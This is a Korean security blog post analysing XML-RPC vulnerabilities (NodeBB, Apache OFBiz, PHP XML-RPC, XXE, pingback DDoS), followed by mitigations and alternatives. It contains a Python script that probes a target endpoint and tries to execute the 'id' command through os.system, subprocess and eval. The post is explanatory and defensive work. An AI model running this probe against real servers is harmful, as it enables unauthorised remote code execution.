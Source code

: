 ---
title: "XML-RPC 보안 취약점 분석 및 완화 전략"
date: 2025-03-28T08:39:00+09:00
draft: false
tags: ["XML-RPC", "Security", "RCE", "Exploit"]
categories: ["Cybersecurity"]
-----------------------------
![xmlrpc 배경화면](/images/post/xmlrpc-security.png)

## 주요 요약

- **XML-RPC 취약점 개요:** 시스템 간 통신을 위한 경량 원격 호출 프로토콜인 XML-RPC는 명령 주입(RCE), XXE, DDoS, 권한 상승 등 다양한 위협에 노출됩니다.
- **대표 사례:** NodeBB (CVE-2023-43187), Apache OFBiz (CVE-2020-9496), PHP XML-RPC (CVE-2005-1921) 등.
- **실제 사용처:** WordPress, Bugzilla, ManageEngine, Apache OFBiz 외에도 일부 레거시 시스템에서 활용 중입니다.
- **완화 전략:** XML-RPC 비활성화, 입력 검증 강화, 인증 체계 강화, 최신 보안 패치 적용, 접근 제어 및 WAF 도입.

## XML-RPC란 무엇인가?

\*\*XML-RPC (XML Remote Procedure Call)\*\*는 XML을 데이터 포맷으로, HTTP를 전송 수단으로 사용하는 원격 프로시저 호출(RPC) 프로토콜입니다. 1998년 Dave Winer와 Microsoft가 공동 제안했으며, 플랫폼 간 통신을 간편화하기 위해 설계되었습니다.

### 기본 원리

- 클라이언트가 XML 형식으로 요청을 보내면 서버가 XML로 응답을 반환합니다.
- 표준 HTTP(S)를 활용해 방화벽을 쉽게 통과할 수 있습니다.

### XML-RPC의 역사

XML-RPC는 초기 웹 서비스에서 널리 쓰였으며, Perl, Java, Python, C, PHP 등 다양한 언어에서 구현되었습니다. 이후 SOAP로 발전했지만, 단순성 때문에 일부 환경에서 지속적으로 활용되었습니다.

### XML-RPC의 현재

RESTful API 및 gRPC 등 최신 기술의 등장으로 사용이 점차 감소하고 있습니다. WordPress도 REST API로 전환 중이며, 레거시 시스템에서만 제한적으로 활용되는 추세입니다.

## 취약점 분석

### 1. XML 주입 및 원격 코드 실행 (RCE)

- **NodeBB (CVE-2023-43187):** XML 입력 미검증으로 RCE 가능
- **Apache OFBiz (CVE-2020-9496):** Java 역직렬화 기반 RCE
- **PHP XML-RPC (CVE-2005-1921):** eval() 오용을 통한 RCE 가능

### 2. XXE (XML External Entity)

- **Apache XML-RPC (CVE-2016-5002):** 외부 엔티티 비활성화 누락으로 로컬 파일 노출 및 SSRF 가능

### 3. DDoS 및 Brute Force 공격

- **system.multicall:** 무차별 대입 공격 자동화
- **pingback.ping:** DDoS 중계 공격 수행

### 4. 인증 우회 및 권한 상승

- **WordPress (CVE-2020-28036):** XML-RPC를 통한 인증 우회

## 실제 공격 사례

- **SonicWall 보고서 (2018):** XML-RPC 공격 10만 건 이상 감지
- **WPbrutebot:** XML-RPC 기반 Brute-force 공격
- **Pingback DDoS:** XML-RPC를 이용한 대규모 중계 공격

## XML-RPC 익스플로잇 예시

아래는 Python 기반으로 동작하는 XML-RPC의 RCE 취약점 탐지 Python 코드와 실행 화면입니다.

![xmlrpc poc code 실행 화면](/images/post/xmlrpc-rce.png)

```python
import xmlrpc.client
import ssl
import http.client

candidate_methods = [
    "os.system",
    "commands.getoutput",
    "subprocess.check_output",
]

candidate_methods_eval = [
    "__builtin__.eval",
    "builtins.eval",
]

rpc_urls = [
    "https://xxx.com/cgi-bin/rpc.cgi",
]

context = ssl._create_unverified_context()

class UnverifiedTransport(xmlrpc.client.SafeTransport):
    def make_connection(self, host):
        return http.client.HTTPSConnection(host, context=context)

for rpc_url in rpc_urls:
    print(f"[+] Scanning target: {rpc_url}")
    client = xmlrpc.client.ServerProxy(rpc_url, transport=UnverifiedTransport())

    for method in candidate_methods:
        try:
            parts = method.split(".")
            obj = getattr(client, parts[0])
            func = getattr(obj, parts[1])
            print(f"[>] Trying {method}('id')...")
            result = func('id')
            if isinstance(result, bytes):
                result = result.decode()
            print(f"[✔] {method} → Success! Result: {result}\n")
        except Exception as e:
            print(f"[-] {method} blocked: {e}")

    for method in candidate_methods_eval:
        try:
            parts = method.split(".")
            obj = getattr(client, parts[0])
            func = getattr(obj, parts[1])
            payload = '__import__("commands").getoutput("id")'
            print(f"[>] Trying {method}('{payload}')...")
            result = func(payload)
            if isinstance(result, bytes):
                result = result.decode()
            print(f"[✔] {method} → Success! Result: {result}\n")
        except Exception as e:
            print(f"[-] {method} blocked: {e}")
```

> ⚠️ 본 스크립트는 반드시 허가된 환경에서만 사용하세요.

## XML-RPC 활용 중인 대표 서비스

| 시스템          | 활용 예시                         |
| ------------ | ----------------------------- |
| WordPress    | 게시, 댓글, pingback (REST로 전환 중) |
| Bugzilla     | 버그 등록 및 수정 API                |
| ManageEngine | 사용자 계정 및 비밀번호 관리              |
| Apache OFBiz | ERP 연동 API                    |

## 보안 강화 방안

- XML-RPC 비활성화 (.htaccess, 웹서버 설정, 플러그인)
- 입력 검증 강화 (정규식 기반)
- XXE 방지 설정 적용
- API 키, OAuth, JWT 인증 적용
- IP 기반 접근 제한
- 웹 애플리케이션 방화벽(WAF) 도입
- 로그 모니터링 및 정기적 취약점 점검 수행

## 현대 대체 기술 비교

| 항목     | XML-RPC | REST   | GraphQL |
| ------ | ------- | ------ | ------- |
| 데이터 형식 | XML     | JSON   | JSON    |
| 구조     | 메서드 기반  | 리소스 기반 | 쿼리 기반   |
| 확장성    | 낮음      | 높음     | 매우 높음   |
| 보안성    | 낮음      | 중간 이상  | 중간 이상   |
| 장점     | 간단 구현   | 캐싱 가능  | 데이터 최소화 |

## 결론 및 제언

- **XML-RPC는 보안 위험이 높아 사용을 자제하세요.**
- **불가피한 경우, 강력한 인증 및 접근 제어를 반드시 적용하세요.**
- **REST 또는 GraphQL로의 전환을 적극 권장합니다.**

## 참조 링크

- [XML-RPC - Wikipedia](https://ko.wikipedia.org/wiki/XML-RPC)
- [CVE-2023-43187 - NodeBB XML Injection](https://nvd.nist.gov/vuln/detail/CVE-2023-43187)
- [CVE-2020-9496 - Apache OFBiz RCE](https://nvd.nist.gov/vuln/detail/CVE-2020-9496)
- [CVE-2005-1921 - PHP XMLRPC Code Injection](https://nvd.nist.gov/vuln/detail/CVE-2005-1921)
- [CVE-2016-5002 - Apache XML-RPC XXE](https://nvd.nist.gov/vuln/detail/CVE-2016-5002)
- [WordPress XML-RPC 보안 가이드 (SolidWP)](https://solidwp.com/blog/xmlrpc-php/)
- [SonicWall XML-RPC 공격 분석 보고서](https://www.sonicwall.com/blog/major-attempt-to-exploit-xml-rpc-remote-code-injection-vulnerability-is-observed)


